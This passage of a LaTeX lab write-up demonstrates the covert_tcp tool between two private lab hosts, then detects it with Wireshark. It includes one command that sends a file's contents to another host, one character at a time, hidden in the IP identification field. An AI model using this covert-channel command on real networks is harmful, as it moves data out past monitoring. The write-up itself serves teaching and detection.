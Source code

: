 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
Now, we will start sending the contents of message.txt file over tcp using the following command.

\begin{lstlisting}[language=bash, frame=none]
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/Send/message.txt 
\end{lstlisting}

The covert\_tcp program starts sending the string one character at a time, as shown below.

\begin{figure}[H]
    \centering
    \texttt{[image: yy3.png]}
    \caption{Send one character at a time}
\end{figure}

On the receiver, the message is being received, one character at a time.

\begin{figure}[H]
    \centering
    \texttt{[image: yy4.png]}
    \caption{Receive one character at a time}
\end{figure}

Navigate to \lstinline{/home/ubuntu/Desktop/Receive} folder and double-click the receive.txt file to view its contents. It shows the full message saved in the file.

\begin{figure}[H]
    \centering
    \texttt{[image: yy5.png]}
    \caption{receive.txt}
\end{figure}

\subsubsection{Detection of the Covert Channel}

Using Wireshark to perform packet capture, we logged all the packets involved in the communication for the Covert\_TCP covert channel. Below is a screenshot of the network traffic with a display filter, “tcp”, showing many suspicious/malformed packets logged.

\begin{figure}[H]
    \centering
    \texttt{[image: yy6.png]}
    \caption{Wireshark capture of network traffic}
\end{figure}

Upon analysis, we find each character of the message string being sent in individual packets over the network. The covert\_tcp program utilizes the identification field of the IP protocol and replaces it, one character at a time, with the characters of the string to send the message.
\end{document}
